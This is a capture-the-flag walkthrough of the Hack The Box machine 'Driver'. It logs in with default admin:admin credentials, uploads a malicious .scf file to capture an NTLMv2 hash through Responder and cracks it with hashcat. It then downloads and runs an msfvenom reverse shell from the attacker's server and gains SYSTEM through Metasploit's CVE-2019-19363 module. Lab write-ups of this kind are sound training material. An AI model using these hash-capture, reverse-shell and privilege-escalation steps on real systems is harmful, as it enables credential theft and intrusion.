

<p align="center">
  
</p>

---

- 🎯 **Target:** Hack The Box - Driver - Windows machine
- 🧑‍💻 **Author:** sonyahack1
- 📅 **Date:** 07.06.2025
- 📊 **Difficulty:** Easy
- 📁 **Category:** Windows / Privilege Escalation
- 💻 **Platform:** Windows

---

## Table of Contents

- [Summary](#summary)
- [Reconnaissance](#%EF%B8%8F-reconnaissance)
- [Entry Point](#-entry-point)
- [Initial Access](#-initial-access)
- [Vertical Privilege Escalation](#%EF%B8%8F-vertical-privilege-escalation)
- [CVE Exploitation](#)
- [Conclusion](#-conclusion)

---

## Summary

| Stage         | Info                               	   	|
|---------------|-----------------------------------------------|
| Entry Point   | `.scf-files` in `Firmware Updates`	   	|
| User Flag     | `flag{1a93d967f189392b41fa41664328b97a}` 	|
| Root Flag     | `flag{e7e2174ca95ebb56eb2bcedb5ef69804}` 	|
| Credentials   | `tony:liltony` (local user in initial access) |
| CVE/Exploit   | `CVE-2019-19363` - Ricoh Printer Drivers 	|

---

> I add the machine address to /etc/hosts:

```bash

echo '10.10.11.106 driver.htb' | sudo tee -a /etc/hosts

```
```bash

ping driver.htb

PING driver.htb (10.10.11.106) 56(84) bytes of data.
64 bytes from driver.htb (10.10.11.106): icmp_seq=1 ttl=127 time=42.7 ms
64 bytes from driver.htb (10.10.11.106): icmp_seq=2 ttl=127 time=42.3 ms
64 bytes from driver.htb (10.10.11.106): icmp_seq=3 ttl=127 time=42.3 ms
^C
--- driver.htb ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 42.333/42.472/42.742/0.190 ms

```
---
## 🕵️  Reconnaissance

> I start scanning the target for open ports and services:

```bash

sudo nmap -sVC -p- -vv -T5 driver.htb -oN driver_tcp_scan

```
> Result

```bash

PORT     STATE SERVICE      REASON          VERSION
80/tcp   open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
445/tcp  open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

```

> I see the presence of a web page on port **80**, as well as ports **445 (smb)**, **5985** (`winrm` - this is important because it means that there is the possibility of remote connection to the host)

> I will check the **smb** port for the possibility of **anonymous** authorization or from the user `guest` via the `nxc` (**netexec**) utility:

```bash

sonyahack1 kali ~                                                                                          07:58:16 PM
❯ nxc smb driver.htb -u 'guest' -p ''
SMB         10.10.11.106    445    DRIVER           [*] Windows 10 Build 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.10.11.106    445    DRIVER           [-] DRIVER\guest: STATUS_ACCOUNT_DISABLED

sonyahack1 kali ~                                                                                          07:58:30 PM
❯ nxc smb driver.htb -u '' -p ''
SMB         10.10.11.106    445    DRIVER           [*] Windows 10 Build 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.10.11.106    445    DRIVER           [-] DRIVER\: STATUS_ACCESS_DENIED

sonyahack1 kali ~ 

```

> Nothing. Ok. `Winrm` is also useless in this case for now since I don't have any credentials for remote authentication in the system.

---

> I open the page on port 80:


> I see the authentication form in the web interface. The first thing that came to my mind is the standard set of logins and passwords by default:


> In this case, the pair `admin:admin` was suitable.


> I get to the main page of the printer **firmware update** center interface.

> The `Firmware Updates` page has functionality for uploading files to update printers. This will be our `Entry Point`.


---
## 🚪 Entry Point

> At this point, I spent quite a long time sorting through different files (`.exe`, `.ps`, etc.) to load into the system via the printer error update functionality in `Firmware Updates` to get a reverse shell.
> As it turned out, the point is that there is a certain set of special files that are automatically executed at the moment when some user opens a directory on the host with this file. At this
> moment, `Windows Explorer` executes such files without the user's knowledge, making the necessary network requests. And such network requests can cause an attempt at `SMB authorization`, in which
> the system will also automatically use the user's credentials for the request. There are quite a few such files. The main ones are: `.url`, `.lnk`, `.scf`, `.theme`, etc.

> I was able to get initial access via a custom file with the `.scf` extension for displaying icons.

> That is I want to say that loading these files is in no way related to the printer update functionality. Such files are usually uploaded to a network folder (SMB share) to which the victim has access.
> They will be executed in any case if someone opens such a folder in Explorer.

---

> **Note:** files with the extension `.scf` (**Shell Command File**) are Windows command shell files that are essentially `ini-like` text files processed by
> `Windows Explorer` automatically. Explorer can perform the action specified in this file - for example, go to a specific network path and try to
> download and display something (for example, a file icon).

> In practice, this looks something like this:

- The user opens a directory on the system that contains a `.scf` file (**the same network folder with files for updating the printer**)
- Windows Explorer automatically parses this file and tries to perform the actions specified in this file
- If the file specifies an external network path to another system on the current network, Windows Explorer initiates an SMB session using the credentials of this user
- As a result, the login and NTLM hash of the user's password, which can be intercepted, will be transmitted over the network.

---

> Based on the above described algorithm of actions, I need to correctly create a `.scf` file and specify the address of my system to intercept the NTLM hash of the user
> on whose behalf the request to my SMB directory will be initiated.

> Example of the contents of the `.scf` file:



> An example is given in the source: 

> I remove unnecessary `[Taskbar]` lines and leave only `[Shell]` - this is the main section of our command shell.
> I specify the address of my system as the value of the `IconFile` parameter. I also specify the name of any directory for the request in the address (for example, `share`)

> The final file for the attack will be as follows:

```bash

[Shell]
Command=2
IconFile=\\10.10.14.15\share\

```
> I launch the listener via the network interface through `Responder`. I recommend that you first make sure that the SMB and HTTP protocols are not disabled in the configuration of this utility:


```bash

sudo responder -I tun0

```
```bash

                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.6.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.15]
    Responder IPv6             [dead:beef:2::100d]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-L2IR6F0BLLR]
    Responder Domain Name      [OIGX.LOCAL]
    Responder DCE-RPC Port     [47632]

[+] Listening for events...


```

> Uploading my `shell.scf` file via web interface on port 80 on `Firmware updates` page

> **Result**: Responder caught **login** and **password hash** user when connecting to my directory via SMB protocol:

```bash

[SMB] NTLMv2-SSP Client   : 10.10.11.106
[SMB] NTLMv2-SSP Username : DRIVER\tony
[SMB] NTLMv2-SSP Hash     : tony::DRIVER:435504faaae54581:7526C5DE9A87674848C755AA7EA326E7:010100000000000080AEC81DA4DCDB01E490FEFD8E9A158500000000020008004F0049004700580001001E00570049004E002D004C0032004900520036004600300042004C004C00520004003400570049004E002D004C0032004900520036004600300042004C004C0052002E004F004900470058002E004C004F00430041004C00030014004F004900470058002E004C004F00430041004C00050014004F004900470058002E004C004F00430041004C000700080080AEC81DA4DCDB01060004000200000008003000300000000000000000000000002000002A92D7A184F32D87DAC579F54B02E6BB32E2DB1D48EB97C1B49181C1A1BA64720A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E0031003500000000000000000000000000

```

> I save the hash to a file and run `hashcat` to crack it:

```bash

echo 'tony::DRIVER:435504faaae54581:7526C5DE9A87674848C755AA7EA326E7:010100000000000080AEC81DA4DCDB01E490FEFD8E9A158500000000020008004F0049004700580001001E00570049004E002D004C0032004900520036004600300042004C004C00520004003400570049004E002D004C0032004900520036004600300042004C004C0052002E004F004900470058002E004C004F00430041004C00030014004F004900470058002E004C004F00430041004C00050014004F004900470058002E004C004F00430041004C000700080080AEC81DA4DCDB01060004000200000008003000300000000000000000000000002000002A92D7A184F32D87DAC579F54B02E6BB32E2DB1D48EB97C1B49181C1A1BA64720A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E0031003500000000000000000000000000' | sudo tee tony_hash.txt

```

```bash

hashid tony_hash.txt

[+] NetNTLMv2

```

```bash

hashcat -m 5600 tony_hash.txt /usr/share/wordlists/rockyou.txt --force

```
> Result:

```bash

TONY::DRIVER:435504faaae54581:7526c5de9a87674848c755aa7ea326e7:010100000000000080aec81da4dcdb01e490fefd8e9a158500000000020008004f0049004700580001001e00570049004e002d004c0032004900520036004600300042004c004c00520004003400570049004e002d004c0032004900520036004600300042004c004c0052002e004f004900470058002e004c004f00430041004c00030014004f004900470058002e004c004f00430041004c00050014004f004900470058002e004c004f00430041004c000700080080aec81da4dcdb01060004000200000008003000300000000000000000000000002000002a92d7a184f32d87dac579f54b02e6bb32e2db1d48eb97c1b49181c1a1ba64720a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003500000000000000000000000000:liltony

```

> Ok. There is a password from the user `tony` - `liltony`

---
## 🔓 Initial Access

> I use the received credentials and connect via the `winrm` protocol which is open on port `5985`. I use the `evil-winrm` utility:

```bash

evil-winrm -i driver.htb -u tony -p liltony

```
> Result:

```bash

*Evil-WinRM* PS C:\Users\tony\Documents> whoami
driver\tony
*Evil-WinRM* PS C:\Users\tony\Documents>

```
> I get first flag:

```bash

*Evil-WinRM* PS C:\Users\tony\Documents> cd ../
*Evil-WinRM* PS C:\Users\tony> cd Desktop
*Evil-WinRM* PS C:\Users\tony\Desktop> ls


    Directory: C:\Users\tony\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        6/13/2025   2:02 PM             34 user.txt


*Evil-WinRM* PS C:\Users\tony\Desktop> more user.txt
1a93d967f189392b41fa41664328b97a

*Evil-WinRM* PS C:\Users\tony\Desktop>

```
> user flag - `1a93d967f189392b41fa41664328b97a`

---
## 🧍⬆️🧑‍💼 Vertical Privilege Escalation

> When running Windows Enumeration, a command was found in the PowerShell command history file to add a new printer named `Ricoh`, specifying its driver and port:

```bash

*Evil-WinRM* PS C:\Users\tony\Desktop> type $Env:USERPROFILE\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt

Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'

ping 1.1.1.1
ping 1.1.1.1

```
> I'm going to google this driver `RICOH PCL6 Universal Driver V4.23` for vulnerabilities and exploits:


> Found **CVE** for this version of `Ricoh` driver (**v4.23**) - `CVE-2019-19363`. There is also a description of this vulnerability


> In simple terms, the essence of this vulnerability is in the **vulnerable version** of the `Ricoh` driver (**v4.23**) when adding a new `Ricoh` printer to the system. During the installation of a new
> printer, the `C:\ProgramData\RICOH_DRV` directory is created, which contains the `.dll-files` used by the Windows print service. When starting the printer or
> printing (in principle, when interacting with the printer), Windows starts the system process (service) `PrintIsolationHost.exe` with `SYSTEM` privileges and this process loads
> all these `.dll-files`. And the point is that a regular user, being in the `Everyone` group, has full control (`F`) over these `.dll-files` in the directory and can overwrite them. > And if the process `PrintIsolationHost.exe` executes such a modified .dll file (for example with a reverse shell) with `SYSTEM` privileges, then the user gets full access to the system with `SYSTEM` rights.

> I check the access rights to `.dll` files in the system:

```bash

icacls "C:\ProgramData\RICOH_DRV\RICOH PCL6 UniversalDriver V4.23\_common\dlz\*.dll"

```
> Result:


> The result shows that all `.dll` files have `Full` access rights for the `Everyone` group.

> I also check if the user `tony` has the group:

```bash

whoami /all

```
> Result:


> This is a direct vector for escalating privileges in the system. The user `tony` has full access to `.dll files`.

---

### 🔑 CVE Exploitation

> To exploit this vulnerability, I will use the `ricoh_driver_privesc` module in `metasploit`. But before exploiting the vulnerability, I need to prepare some details.

> First, I need to transfer the session from `winrm` to `meterpreter` in `metasploit`, since the `ricoh_driver_privesc` module will need direct access to the session. Therefore, I need to create a
> reverse shell via the generated payload in `msfvenom` and deliver it to the victim's system via a simple **python server**:

```bash

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.15 LPORT=4444 -f exe -o rev_shell.exe

```
```bash

python3 -m http.server 1111

```
> In the victim's car:

```bash

*Evil-WinRM* PS C:\Users\tony\Desktop> wget http://10.10.14.15:1111/rev_shell.exe -O rev_shell.exe

```
> Result:

```bash

*Evil-WinRM* PS C:\Users\tony\Desktop> ls


    Directory: C:\Users\tony\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/13/2025   6:21 PM           7168 rev_shell.exe
-ar---        6/13/2025   2:02 PM             34 user.txt


*Evil-WinRM* PS C:\Users\tony\Desktop>

```
> I launch `msfconsole` with the `multi/handler` module (our listener), in the victim's system I launch the downloaded `.exe-file` and get a session in `meterpreter`:

```bash

❯ msfconsole -q
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.15
LHOST => 10.10.14.15
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.15:4444
[*] Sending stage (203846 bytes) to 10.10.11.106
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.10.11.106:49477) at 2025-06-13 22:56:29 -0400

meterpreter > shell
Process 3056 created.
Channel 1 created.
Microsoft Windows [Version 10.0.10240]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\tony\Desktop>whoami
whoami
driver\tony

C:\Users\tony\Desktop>

```
> Ok. Now everything is the same as it was with `winrm`, only now we have a session with which the `ricoh_driver_privesc` module can interact directly:

```bash

msf6 exploit(multi/handler) > sessions -i

Active sessions
===============

  Id  Name  Type                     Information           Connection
  --  ----  ----                     -----------           ----------
  1         meterpreter x64/windows  DRIVER\tony @ DRIVER  10.10.14.15:4444 -> 10.10.11.106:49477 (10.10.11.106)

msf6 exploit(multi/handler) >

```
---

> **Note:** It is important to mention that it is necessary to transfer the current `meterpreter` session to another process to get an interactive session (`session 1`)
> since the exploit will not work in a non-interactive environment (`session 0`).


> for example, you can move the session to `conhost.exe` (**Console Window Host**) with ID `1068`:

```bash

meterpreter > migrate 1068

[*] Migrating from 3320 to 1068...
[*] Migration completed successfully.

meterpreter >

```
---

> Next I change the module to `ricoh_driver_privesc`. I set the required network settings, active session (`session 1`) and check the possibility of exploitation:

```bash

msf6 exploit(multi/handler) > use exploit/windows/local/ricoh_driver_privesc

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/local/ricoh_driver_privesc) > set session 1
session => 1
msf6 exploit(windows/local/ricoh_driver_privesc) > set LHOST 10.10.14.15
LHOST => 10.10.14.15
msf6 exploit(windows/local/ricoh_driver_privesc) > set LPORT 4444
LPORT => 4444
msf6 exploit(windows/local/ricoh_driver_privesc) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/ricoh_driver_privesc) > check

[*] Deleting printer
[*] The target appears to be vulnerable. Ricoh driver directory has full permissions

```
> `The target appears to be vulnerable. Ricoh driver directory has full permissions`. I start exploitation and get a session under the `SYSTEM` account:

```bash

msf6 exploit(windows/local/ricoh_driver_privesc) > run
[*] Started reverse TCP handler on 10.10.14.15:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Sending stage (203846 bytes) to 10.10.11.106
[*] Sending stage (203846 bytes) to 10.10.11.106
[+] The target appears to be vulnerable. Ricoh driver directory has full permissions
[*] Meterpreter session 3 opened (10.10.14.15:4444 -> 10.10.11.106:49485) at 2025-06-13 23:49:16 -0400
[*] Meterpreter session 4 opened (10.10.14.15:4444 -> 10.10.11.106:49487) at 2025-06-13 23:49:16 -0400
[*] Adding printer DWAGG...
[*] Sending stage (203846 bytes) to 10.10.11.106
[*] Deleting printer DWAGG
[+] Deleted C:\Users\tony\AppData\Local\Temp\suXZXKTj.bat
[+] Deleted C:\Users\tony\AppData\Local\Temp\headerfooter.dll

meterpreter > [*] Meterpreter session 5 opened (10.10.14.15:4444 -> 10.10.11.106:49489) at 2025-06-13 23:49:20 -0400

```
```bash

msf6 exploit(windows/local/ricoh_driver_privesc) > sessions -i

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  2         meterpreter x64/windows  DRIVER\tony @ DRIVER          10.10.14.15:4444 -> 10.10.11.106:49488 (10.10.11.
                                                                   106)
  3         meterpreter x64/windows  DRIVER\tony @ DRIVER          10.10.14.15:4444 -> 10.10.11.106:49485 (10.10.11.
                                                                   106)
  4         meterpreter x64/windows  DRIVER\tony @ DRIVER          10.10.14.15:4444 -> 10.10.11.106:49487 (10.10.11.
                                                                   106)
  5         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DRIVER  10.10.14.15:4444 -> 10.10.11.106:49489 (10.10.11.
                                                                   106)

msf6 exploit(windows/local/ricoh_driver_privesc) > sessions -i 5
[*] Starting interaction with 5...

meterpreter > shell
Process 2872 created.
Channel 2 created.
Microsoft Windows [Version 10.0.10240]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>

```
> I get last flag:

```bash

C:\Windows\system32>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is DB41-39A3

 Directory of C:\Users\Administrator\Desktop

06/12/2021  04:37 AM    <DIR>          .
06/12/2021  04:37 AM    <DIR>          ..
06/13/2025  02:02 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   6,137,663,488 bytes free

C:\Users\Administrator\Desktop>more root.txt
more root.txt
e7e2174ca95ebb56eb2bcedb5ef69804

C:\Users\Administrator\Desktop>


```
> root flag: `e7e2174ca95ebb56eb2bcedb5ef69804`

> the machine is compromised.

---

> **Note:** It may take several attempts to run the exploit, since it may take some time to create and send the `.dll` payload before the `PrintIsolationHost.exe` process loads the `.dll`
> file when interacting with the printer. Personally, I had to restart the module in metasploit about `four` times before I got a session with `SYSTEM` privileges.

---
## 🧠 Conclusion

> During the pass of this machine, the web interface for managing printers in the system was accessed using the default credentials: `admin:admin`. On the `Firmware Updates` page, the ability to
> download `.scf` files was detected, which made it possible to obtain the `NTLM hash` of the `tony` user password and then initial access to the system via the `winrm` protocol.
> During the **Windows Enumeration**, a command to add a `Ricoh` printer with a vulnerable version of the `Ricoh` driver (**v4.23**) was found in the `PowerShell` command history file. This version
> of the driver is associated with the vulnerability `CVE-2019-19363`, the exploitation of which allowed full access to the system with `SYSTEM` privileges.

---

<p align="center">
  
</p>

---
